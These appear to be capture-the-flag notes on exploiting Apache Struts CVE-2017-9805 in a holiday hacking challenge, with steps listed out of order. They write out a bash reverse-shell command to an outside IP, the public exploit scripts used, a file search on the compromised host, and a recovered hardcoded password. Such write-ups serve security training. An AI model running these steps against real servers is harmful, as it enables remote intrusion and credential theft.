

# Challenge 2 - apache STRuts
4. In Reverse shell went to /var/www/
found GreatBookPage2.pdf
https://l2s.northpolechristmastown.com/GreatBookPage2.pdf
5. Pillage to find dev files with password , (becasue of hint)
ll -l /*/*searched for files owned by alabaster_snowballfound a few interested files but one matched the 'dev' hint.
/dev/shm:file in that directory called test1.txtcat test1.txt
within that file a reference to a SQL file/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:3:
final String username = "alabaster_snowball";cat alabaster_snowball@l2s:/dev/shm$ cat /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class
final String username = "alabaster_snowball";
final String password = "stream_unhappy_buy_loss";   ssh alabaster_snowball@35.227.95.239
confirmed password with successful login
1. In Source Code of https://l2s.northpolechristmastown.com, found link to :
https://dev.northpolechristmastown.com/orders.xhtml
running apache struts
https://github.com/mazen160/struts-pwn_CVE-2017-9805
2. python struts-pwn.py --url 	'https://dev.northpolechristmastown.com/orders'
3. Used https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code from Hint
points to this tool to encode https://raw.githubusercontent.com/chrisjd20/cve-2017-9805.py/master/cve-2017-9805.py
downloaded python and used to send bash reverse shell
bash -i >& /dev/tcp/54.202.232.184/80 0>&1"
python cve-2017-9805.py -u  'https://dev.northpolechristmastown.com/orders/' -c  "bash -i >& /dev/tcp/54.202.232.184/80 0>&1"
got reverse shell on AWS instance